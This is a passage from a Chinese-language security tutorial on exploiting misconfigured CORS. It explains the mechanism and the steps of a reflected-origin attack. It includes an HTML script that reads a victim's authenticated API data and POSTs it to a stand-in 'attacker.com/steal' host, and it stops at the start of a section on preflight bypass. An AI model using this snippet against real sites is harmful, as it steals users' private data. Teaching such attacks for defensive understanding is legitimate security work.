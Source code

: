 # CORS配置错误利用的攻击技术

## 1. 技术原理解析

### 1.1 CORS概述

跨域资源共享（Cross-Origin Resource Sharing, CORS）是一种浏览器机制，允许网页从不同域名的服务器请求资源。CORS通过HTTP头来实现，服务器通过设置特定的HTTP头来指示浏览器是否允许跨域请求。

### 1.2 CORS配置错误

CORS配置错误通常发生在服务器未正确设置`Access-Control-Allow-Origin`头，或者该头被设置为过于宽松的值（如`*`）。这些错误可能导致攻击者能够利用跨域请求来窃取用户数据或执行恶意操作。

### 1.3 底层实现机制

当浏览器发起跨域请求时，会先发送一个预检请求（OPTIONS请求），服务器通过`Access-Control-Allow-Origin`头来响应是否允许该请求。如果服务器配置不当，攻击者可以构造恶意请求，绕过同源策略，访问受限资源。

## 2. 常见攻击手法和利用方式

### 2.1 反射型CORS攻击

**描述**：攻击者通过构造恶意URL，诱导用户访问，利用服务器反射的`Access-Control-Allow-Origin`头，窃取用户数据。

**步骤**：
1. 构造恶意URL，包含跨域请求。
2. 诱导用户访问该URL。
3. 服务器反射`Access-Control-Allow-Origin`头，允许跨域请求。
4. 攻击者通过恶意脚本窃取用户数据。

**示例代码**：
```html
<script>
  fetch('https://vulnerable-site.com/api/data', {
    credentials: 'include'
  })
  .then(response => response.json())
  .then(data => {
    fetch('https://attacker.com/steal', {
      method: 'POST',
      body: JSON.stringify(data)
    });
  });
</script>
```

### 2.2 预检请求绕过

**描述**：攻击者通过构造复杂的请求，绕过服务器的预检请求检查，直接发起跨域请求。
